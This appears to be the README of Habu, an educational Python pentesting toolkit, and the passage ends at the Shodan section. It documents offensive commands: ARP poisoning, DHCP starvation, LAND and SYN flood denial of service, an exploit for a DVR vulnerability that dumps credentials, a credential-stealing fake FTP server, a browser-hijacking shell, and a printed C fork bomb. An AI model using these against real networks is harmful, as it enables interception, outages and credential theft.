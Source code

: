 
Habu: Python Network Hacking Toolkit
====================================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

These are basic functions that help with some tasks for Ethical Hacking
and Penetration Testing.

Most of them are related with networking, and the implementations are
intended to be understandable for who wants to read the source code and
learn from that.

Some techniques implemented in the current version are:


* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/portantier/habu

Installation
------------

**Kali Linux:**

You can install the package created for Kali Linux. See
https://github.com/portantier/habu/releases

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

.. code-block::

   $ pip3 install habu

Dependencies
------------

Habu requires Python3 and the following packages:


* beautifulsoup4
* click
* cryptography
* dnspython
* lxml
* prompt_toolkit
* pygments
* regex
* requests
* requests-cache
* scapy-python3
* websockets
* matplotlib (Optional, only needed if you want to make some graphs)

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------


* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `certclone <#habucertclone>`_
* `config.del <#habuconfigdel>`_
* `config <#habuconfig>`_
* `config.set <#habuconfigset>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `cve.2018.9995 <#habucve20189995>`_
* `cymon.ip <#habucymonip>`_
* `cymon.ip.timeline <#habucymoniptimeline>`_
* `decrypt.gppref <#habudecryptgppref>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `eicar <#habueicar>`_
* `extract.email <#habuextractemail>`_
* `extract.hostname <#habuextracthostname>`_
* `extract.ipv4 <#habuextractipv4>`_
* `fernet.genkey <#habufernetgenkey>`_
* `fernet <#habufernet>`_
* `forkbomb <#habuforkbomb>`_
* `gateway.find <#habugatewayfind>`_
* `hasher <#habuhasher>`_
* `ip2asn <#habuip2asn>`_
* `ip <#habuip>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma.bulk <#habukarmabulk>`_
* `karma <#habukarma>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan.open <#habushodanopen>`_
* `shodan <#habushodan>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `web.tech <#habuwebtech>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

   Usage: habu.arp.ping [OPTIONS] IP

     Send ARP packets to check if a host it's alive in the local network.

     Example:

     # habu.arp.ping 192.168.0.1
     Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding

   Options:
     -i TEXT  Interface to use
     -v       Verbose output
     --help   Show this message and exit.

habu.arp.poison
---------------

.. code-block::

   Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2

     Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
     send the traffic to your system.

     Note: If you want a full working Man In The Middle attack, you need to
     enable the packet forwarding on your operating system to act like a
     router. You can do that using:

     # echo 1 > /proc/sys/net/ipv4/ip_forward

     Example:

     # habu.arpoison 192.168.0.1 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
     Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
     ...

   Options:
     -i TEXT  Interface to use
     -v       Verbose
     --help   Show this message and exit.

habu.arp.sniff
--------------

.. code-block::

   Usage: habu.arp.sniff [OPTIONS]

     Listen for ARP packets and show information for each device.

     Columns: Seconds from last packet | IP | MAC | Vendor

     Example:

     1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
     7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
     2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
     6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd

   Options:
     -i TEXT  Interface to use
     --help   Show this message and exit.

habu.asydns
-----------

.. code-block::

   Usage: habu.asydns [OPTIONS]

     Requests a DNS domain name based on public and private RSA keys using the
     AsyDNS protocol https://github.com/portantier/asydns

     Example:

     $ habu.asydns -v
     Generating RSA key ...
     Loading RSA key ...
     {
         "ip": "181.31.41.231",
         "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
     }

     $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
     181.31.41.231

   Options:
     -u TEXT  API URL
     -g       Force the generation of a new key pair
     -r       Revoke the public key
     -v       Verbose output
     --help   Show this message and exit.

habu.b64
--------

.. code-block::

   Usage: habu.b64 [OPTIONS] [F]

     Encodes or decode data in base64, just like the command base64.

     $ echo awesome | habu.b64
     YXdlc29tZQo=

     $ echo YXdlc29tZQo= | habu.b64 -d
     awesome

   Options:
     -d      decode instead of encode
     --help  Show this message and exit.

habu.certclone
--------------

.. code-block::

   Usage: habu.certclone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE

     Connect to an SSL/TLS server, get the certificate and generate a
     certificate with the same options and field values.

     Note: The generated certificate is invalid, but can be used for social
     engineering attacks

     Example:

     $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem

   Options:
     --copy-extensions  Copy certificate extensions (default: False)
     --expired          Generate an expired certificate (default: False)
     -v                 Verbose
     --help             Show this message and exit.

habu.config.del
---------------

.. code-block::

   Usage: habu.config.del [OPTIONS] KEY

     Delete a KEY from the configuration.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.del DNS_SERVER

   Options:
     --help  Show this message and exit.

habu.config
-----------

.. code-block::

   Usage: habu.config [OPTIONS]

     Show the current config.

     Note: By default, the options with 'KEY' in their name are shadowed.

     Example:

     $ habu.config
     {
         "DNS_SERVER": "8.8.8.8",
         "FERNET_KEY": "*************"
     }

   Options:
     --show-keys       Show also the key values
     --option TEXT...  Write to the config(KEY VALUE)
     --help            Show this message and exit.

habu.config.set
---------------

.. code-block::

   Usage: habu.config.set [OPTIONS] KEY VALUE

     Set VALUE to the config KEY.

     Note: By default, KEY is converted to uppercase.

     Example:

     $ habu.config.set DNS_SERVER 8.8.8.8

   Options:
     --help  Show this message and exit.

habu.contest
------------

.. code-block::

   Usage: habu.contest [OPTIONS]

     Try to connect to various services and check if can reach them using your
     internet connection.

     Example:

     $ habu.contest
     IP:    True
     DNS:   True
     FTP:   True
     SSH:   True
     HTTP:  True
     HTTPS: True

   Options:
     --help  Show this message and exit.

habu.crack.luhn
---------------

.. code-block::

   Usage: habu.crack.luhn [OPTIONS] NUMBER

     Having known values for a Luhn validated number, obtain the possible
     unknown numbers.

     Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
     National Provider Identifier in the United States, Canadian Social
     Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
     (ΑΜΚΑ).

     The '-' characters are ignored.

     Define the missing numbers with the 'x' character.

     Reference: https://en.wikipedia.org/wiki/Luhn_algorithm

     Example:

     $ habu.crack.luhn 4509-xxxx-3160-6445

   Options:
     --help  Show this message and exit.

habu.crack.snmp
---------------

.. code-block::

   Usage: habu.crack.snmp [OPTIONS] IP

     Launches snmp-get queries against an IP, and tells you when finds a valid
     community string (is a simple SNMP cracker).

     The dictionary used is the distributed with the onesixtyone tool
     https://github.com/trailofbits/onesixtyone

     Example:

     # habu.crack.snmp 179.125.234.210
     Community found: private
     Community found: public

     Note: You can also receive messages like \<UNIVERSAL\> \<class
     'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
     them for now.

   Options:
     -p INTEGER  Port to use
     -s          Stop after first match
     -v          Verbose
     --help      Show this message and exit.

habu.crtsh
----------

.. code-block::

   Usage: habu.crtsh [OPTIONS] DOMAIN

     Downloads the certificate transparency logs for a domain and check with
     DNS queries if each subdomain exists.

     Uses multithreading to improve the performance of the DNS queries.

     Example:

     $ sudo habu.crtsh securetia.com
     [
         "karma.securetia.com.",
         "www.securetia.com."
     ]

   Options:
     -c      Disable cache
     -n      Disable DNS subdomain validation
     -v      Verbose output
     --help  Show this message and exit.

habu.cve.2018.9995
------------------

.. code-block::

   Usage: habu.cve.2018.9995 [OPTIONS] IP

     Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.

     Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).

     Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995

     Example:

     $ python habu.cve.2018-9995 82.202.102.42
     [
         {
             "uid": "admin",
             "pwd": "securepassword",
             "role": 2,
             "enmac": 0,
             "mac": "00:00:00:00:00:00",
             "playback": 4294967295,
             "view": 4294967295,
             "rview": 4294967295,
             "ptz": 4294967295,
             "backup": 4294967295,
             "opt": 4294967295
         }
     ]

   Options:
     -p INTEGER  Port to use (default: 80)
     -v          Verbose
     --help      Show this message and exit.

habu.cymon.ip
-------------

.. code-block::

   Usage: habu.cymon.ip [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP query.

     Example:

     $ habu.cymon.ip 8.8.8.8
     {
         "addr": "8.8.8.8",
         "created": "2015-03-23T12:03:42Z",
         "updated": "2018-08-24T04:06:07Z",
         "sources": [
             "safeweb.norton.com",
             "botscout.com",
             "virustotal.com",
             "phishtank"
         ],
         "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
         "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
         "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.cymon.ip.timeline
----------------------

.. code-block::

   Usage: habu.cymon.ip.timeline [OPTIONS] IP

     Simple cymon API client.

     Prints the JSON result of a cymon IP timeline query.

     Example:

     $ habu.cymon.ip.timeline 8.8.8.8
     {
         "timeline": [
             {
                 "time_label": "Aug. 18, 2018",
                 "events": [
                     {
                         "description": "Posted: 2018-08-18 23:37:39 CEST IDS Alerts: 0 URLQuery Alerts: 1 ...",
                         "created": "2018-08-18T21:39:07Z",
                         "title": "Malicious activity reported by urlquery.net",
                         "details_url": "http://urlquery.net/report/b1393866-9b1f-4a8e-b02b-9636989050f3",
                         "tag": "malicious activity"
                     }
                 ]
             },
             ...

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     -p           Pretty output
     --help       Show this message and exit.

habu.decrypt.gppref
-------------------

.. code-block::

   Usage: habu.decrypt.gppref [OPTIONS] PASSWORD

     Decrypt the password of local users added via Windows 2008 Group Policy
     Preferences.

     This value is the 'cpassword' attribute embedded in the Groups.xml file,
     stored in the domain controller's Sysvol share.

     Example:

     # habu.decrypt.gpp AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
     testpassword

   Options:
     --help  Show this message and exit.

habu.dhcp.discover
------------------

.. code-block::

   Usage: habu.dhcp.discover [OPTIONS]

     Send a DHCP request and show what devices has replied.

     Note: Using '-v' you can see all the options (like DNS servers) included
     on the responses.

     # habu.dhcp_discover
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -v          Verbose output
     --help      Show this message and exit.

habu.dhcp.starvation
--------------------

.. code-block::

   Usage: habu.dhcp.starvation [OPTIONS]

     Send multiple DHCP requests from forged MAC addresses to fill the DHCP
     server leases.

     When all the available network addresses are assigned, the DHCP server
     don't send responses.

     So, some attacks, like DHCP spoofing, can be made.

     # habu.dhcp_starvation
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
     Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Time (seconds) to wait for responses
     -s INTEGER  Time (seconds) between requests
     -v          Verbose output
     --help      Show this message and exit.

habu.eicar
----------

.. code-block::

   Usage: habu.eicar [OPTIONS]

     Print the EICAR test string that can be used to test antimalware engines.

     More info: http://www.eicar.org/86-0-Intended-use.html

     Example:

     $ habu.eicar
     X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*

   Options:
     --help  Show this message and exit.

habu.extract.email
------------------

.. code-block::

   Usage: habu.extract.email [OPTIONS] [INFILE]

     Extract email addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.email
     john@securetia.com
     raven@acmecorp.net
     nmarks@fimax.com

   Options:
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.hostname
---------------------

.. code-block::

   Usage: habu.extract.hostname [OPTIONS] [INFILE]

     Extract hostnames from a file or stdin.

     Example:

     $ cat /var/log/some.log | habu.extract.hostname
     www.google.com
     ibm.com
     fileserver.redhat.com

   Options:
     -c      Check if hostname resolves
     -v      Verbose output
     -j      JSON output
     --help  Show this message and exit.

habu.extract.ipv4
-----------------

.. code-block::

   Usage: habu.extract.ipv4 [OPTIONS] [INFILE]

     Extract IPv4 addresses from a file or stdin.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4
     172.217.162.4
     23.52.213.96
     190.210.43.70

   Options:
     --json  JSON output
     -v      Verbose output
     --help  Show this message and exit.

habu.fernet.genkey
------------------

.. code-block::

   Usage: habu.fernet.genkey [OPTIONS]

     Generate a new Fernet Key, optionally write it to ~/.habu.json

     Example:

     $ habu.fernet.genkey
     xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=

   Options:
     -w      Write this key to ~/.habu.json
     --help  Show this message and exit.

habu.fernet
-----------

.. code-block::

   Usage: habu.fernet [OPTIONS]

     Fernet cipher.

     Uses AES-128-CBC with HMAC

     Note: You must use a key to cipher with Fernet.

     Use the -k paramenter or set the FERNET_KEY configuration value.

     The keys can be generated with the command habu.fernet.genkey

     Reference: https://github.com/fernet/spec/blob/master/Spec.md

     Example:

     $ "I want to protect this string" | habu.fernet
     gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...

     $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.fernet -d
     I want to protect this string

   Options:
     -k TEXT        Key
     -d             Decrypt instead of encrypt
     --ttl INTEGER  Time To Live for timestamp verification
     -i FILENAME    Input file (default: stdin)
     -o FILENAME    Output file (default: stdout)
     --help         Show this message and exit.

habu.forkbomb
-------------

.. code-block::

   Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]

     A shortcut to remember how to use fork bombs in different languages.

     Currently supported: bash, batch, c, haskell, perl, php, python, ruby.

     Example:

     $ habu.forkbomb c
     #include <unistd.h>
     int main()
     {
         while(1)
         {
             fork();
         }
         return 0;
     }

   Options:
     --help  Show this message and exit.

habu.gateway.find
-----------------

.. code-block::

   Usage: habu.gateway.find [OPTIONS] NETWORK

     Try to reach an external IP using any host has a router.

     Useful to find routers in your network.

     First, uses arping to detect alive hosts and obtain MAC addresses.

     Later, create a network packet and put each MAC address as destination.

     Last, print the devices that forwarded correctly the packets.

     Example:

     # habu.find.gateway 192.168.0.0/24
     192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
     192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
     192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom

   Options:
     -i TEXT                Interface to use
     --host TEXT            Host to reach (default: 8.8.8.8)
     --tcp                  Use TCP instead of ICMP
     --dport INTEGER RANGE  Destination port for TCP (default: 80)
     --timeout INTEGER      Timeout in seconds (default: 5)
     -v                     Verbose output
     --help                 Show this message and exit.

habu.hasher
-----------

.. code-block::

   Usage: habu.hasher [OPTIONS] [F]

     Computes various hashes for the input data, that can be a file or a
     stream.

     Example:

     $ habu.hasher README.rst
     md5          e5828c564f71fea3a12dde8bd5d27063 README.rst
     ripemd160    ef6886c3b68cb34a44f9ca9336f3cd0732600a84 README.rst
     sha1         7bae8076a5771865123be7112468b79e9d78a640 README.rst
     sha512       65cfb1cf719b851b4aea5a7f5388068687b1fdfd290817a... README.rst
     whirlpool    eaccf718b31d8a01f76fc08e896a6d0d73dbeafc2621fe0... README.rst

     You can also specify which algorithm to use. In such case, the output is
     only the value of the calculated hash:

     $ habu.hasher -a md5 README.rst
     e5828c564f71fea3a12dde8bd5d27063 README.rst

   Options:
     -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                     Only this algorithm (Default: all)
     --help                          Show this message and exit.

habu.ip2asn
-----------

.. code-block::

   Usage: habu.ip2asn [OPTIONS] IP

     Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.

     Reference: https://www.team-cymru.com/IP-ASN-mapping.html

     $ habu.ip2asn 8.8.8.8
     {
         "asn": "15169",
         "net": "8.8.8.0/24",
         "cc": "US",
         "rir": "ARIN",
         "asname": "GOOGLE - Google LLC, US",
         "country": "United States"
     }

   Options:
     --help  Show this message and exit.

habu.ip
-------

.. code-block::

   Usage: habu.ip [OPTIONS]

     Print your current public IP based on the response from
     https://api.ipify.org

     Example:

     $ habu.ip
     182.26.32.246

   Options:
     --help  Show this message and exit.

habu.isn
--------

.. code-block::

   Usage: habu.isn [OPTIONS] IP

     Create TCP connections and print the TCP initial sequence numbers for each
     one.

     $ sudo habu.isn -c 5 www.portantier.com
     1962287220
     1800895007
     589617930
     3393793979
     469428558

     Note: You can get a graphical representation (needs the matplotlib
     package) using the '-g' option to better understand the randomness.

   Options:
     -p INTEGER  Port to use (default: 80)
     -c INTEGER  How many packets to send/receive (default: 5)
     -i TEXT     Interface to use
     -g          Graph (requires matplotlib)
     -v          Verbose output
     --help      Show this message and exit.

habu.jshell
-----------

.. code-block::

   Usage: habu.jshell [OPTIONS]

     Control a web browser through Websockets.

     Bind a port (default: 3333) and listen for HTTP connections.

     On connection, send a JavaScript code that opens a WebSocket that can be
     used to send commands to the connected browser.

     You can write the commands directly in the shell, or use plugins, that are
     simply external JavaScript files.

     Using habu.jshell you can completely control a web browser.

     Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API

     Example:

     $ habu.jshell
     >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
     >> HTTP Request received from 192.168.0.15. Sending hookjs
     >> Connection from 192.168.0.15
     $ _sessions
     0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
     $ _info
     {
         "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
         "location": "http://192.168.0.10:3333/",
         "java-enabled": false,
         "platform": "Linux x86_64",
         "app-code-name": "Mozilla",
         "app-name": "Netscape",
         "app-version": "5.0 (X11)",
         "cookie-enabled": true,
         "language": "es-AR",
         "online": true
     }
     $ document.location
     http://192.168.0.10:3333/

   Options:
     -v          Verbose
     -i TEXT     IP to listen on
     -p INTEGER  Port to listen on
     --help      Show this message and exit.

habu.karma.bulk
---------------

.. code-block::

   Usage: habu.karma.bulk [OPTIONS] [INFILE]

     Show which IP addresses are inside blacklists using the Karma online
     service.

     Example:

     $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
     172.217.162.4   spamhaus_drop,alienvault_spamming
     23.52.213.96    CLEAN
     190.210.43.70   alienvault_malicious

   Options:
     --json  JSON output
     --bad   Show only entries in blacklists
     -v      Verbose output
     --help  Show this message and exit.

habu.karma
----------

.. code-block::

   Usage: habu.karma [OPTIONS] HOST

     Use the Karma service https://karma.securetia.com to check an IP against
     various Threat Intelligence / Reputation lists.

     $ habu.karma www.google.com
     www.google.com -> 64.233.190.99
     [
         "hphosts_fsa",
         "hphosts_psh",
         "hphosts_emd"
     ]

     Note: You can use the hostname or the IP of the host to query.

   Options:
     --help  Show this message and exit.

habu.land
---------

.. code-block::

   Usage: habu.land [OPTIONS] IP

     This command implements the LAND attack, that sends packets forging the
     source IP address to be the same that the destination IP. Also uses the
     same source and destination port.

     The attack is very old, and can be used to make a Denial of Service on old
     systems, like Windows NT 4.0. More information here:
     https://en.wikipedia.org/wiki/LAND

     # sudo habu.land 172.16.0.10
     ............

     Note: Each dot (.) is a sent packet. You can specify how many packets send
     with the '-c' option. The default is never stop. Also, you can specify the
     destination port, with the '-p' option.

   Options:
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -i TEXT     Interface to use
     -v          Verbose
     --help      Show this message and exit.

habu.nc
-------

.. code-block::

   Usage: habu.nc [OPTIONS] HOST PORT

     Some kind of netcat/ncat replacement.

     The execution emulates the feeling of this popular tools.

     Example:

     $ habu.nc --crlf www.portantier.com 80
     Connected to 45.77.113.133 80
     HEAD / HTTP/1.0

     HTTP/1.0 301 Moved Permanently
     Date: Thu, 26 Jul 2018 21:10:51 GMT
     Server: OpenBSD httpd
     Connection: close
     Content-Type: text/html
     Content-Length: 443
     Location: https://www.portantier.com/

   Options:
     --family [4|6|46]            IP Address Family
     --ssl                        Enable SSL
     --crlf                       Use CRLF for EOL sequence
     --protocol [tcp|udp]         Layer 4 protocol to use
     --source-ip TEXT             Source IP to use
     --source-port INTEGER RANGE  Source port to use
     --help                       Show this message and exit.

habu.nmap.open
--------------

.. code-block::

   Usage: habu.nmap.open [OPTIONS] SCANFILE

     Read an nmap report and print the open ports.

     Print the ports that has been resulted open reading the generated nmap
     output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.open portantier.nmap
     22,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.nmap.ports
---------------

.. code-block::

   Usage: habu.nmap.ports [OPTIONS] SCANFILE

     Read an nmap report and print the tested ports.

     Print the ports that has been tested reading the generated nmap output.

     You can use it to rapidly reutilize the port list for the input of other
     tools.

     Supports and detects the 3 output formats (nmap, gnmap and xml)

     Example:

     # habu.nmap.ports portantier.nmap
     21,22,23,80,443

   Options:
     -p [tcp|udp|sctp]  The protocol (default=tcp)
     --help             Show this message and exit.

habu.ping
---------

.. code-block::

   Usage: habu.ping [OPTIONS] IP

     The classic ping tool that send ICMP echo requests.

     # habu.ping 8.8.8.8
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
     IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -t INTEGER  Timeout in seconds (default: 2)
     -w INTEGER  How many seconds between packets (default: 1)
     -v          Verbose
     --help      Show this message and exit.

habu.protoscan
--------------

.. code-block::

   Usage: habu.protoscan [OPTIONS] IP

     Send IP packets with different protocol field content to guess what layer
     4 protocols are available.

     The output shows which protocols doesn't generate a 'protocol-unreachable'
     ICMP response.

     Example:

     $ sudo python cmd_ipscan.py 45.77.113.133
     1   icmp
     2   igmp
     4   ipencap
     6   tcp
     17  udp
     41  ipv6
     47  gre
     50  esp
     51  ah
     58  ipv6_icmp
     97  etherip
     112 vrrp
     115 l2tp
     132 sctp
     137 mpls_in_ip

   Options:
     -i TEXT     Interface to use
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     --all       Probe all protocols (default: Defined in /etc/protocols)
     -v          Verbose output
     --help      Show this message and exit.

habu.server.ftp
---------------

.. code-block::

   Usage: habu.server.ftp [OPTIONS]

     Basic fake FTP server, whith the only purpose to steal user credentials.

     Supports SSL/TLS.

     Example:

     # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
     Listening on port 21
     Accepted connection from ('192.168.0.27', 56832)
     Credentials collected from 192.168.0.27! fabian 123456

   Options:
     -a TEXT          Address to bind (default: all)
     -p INTEGER       Which port to use (default: 21)
     --ssl            Enable SSL/TLS (default: False)
     --ssl-cert TEXT  SSL/TLS Cert file
     --ssl-key TEXT   SSL/TLS Key file
     -v               Verbose
     --help           Show this message and exit.

habu.shodan.open
----------------

.. code-block::

   Usage: habu.shodan.open [OPTIONS] IP

     Output the open ports for an IP against shodan (nmap format).

     Example:

     $ habu.shodan.open 8.8.8.8
     T:53,U:53

   Options:
     -c           Disable cache
     -j           Output in JSON format
     -x           Output an nmap command to scan open ports
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.shodan
-----------

.. code-block::

